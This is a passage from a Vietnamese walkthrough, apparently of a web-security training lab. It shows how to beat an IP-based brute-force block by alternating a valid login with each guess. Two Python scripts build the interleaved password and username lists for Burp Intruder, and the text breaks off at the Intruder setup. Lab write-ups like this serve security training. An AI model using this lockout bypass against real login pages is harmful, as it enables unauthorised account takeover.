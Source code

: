 > Giờ sẽ login 1 lần đúng, 1 lần sai để không bị chặn IP
>
> Tạo script để làm file so le giữ passwd đúng và sai và user đúng và sai:
>
> ```
> passwd = "peter"
>
> f = open("passwdold.txt", "r")
> d = open("passwdnew.txt", "w+")
>
> for i in f:
>    d.write(f"{i}")
>    d.write(f"{passwd}\n")
>
> f.close()
> d.close()
> ```

> ```
> name1 = "carlos"
> name2 = "wiener"
> length = 0
>
> f = open("username.txt", "w+")
>
> while length <= 100:
>    f.write(f"{name1}\n")
>    f.write(f"{name2}\n")
>    length = length + 1
>
> f.close()
> ```

> Sau đó tại intruder rồi config: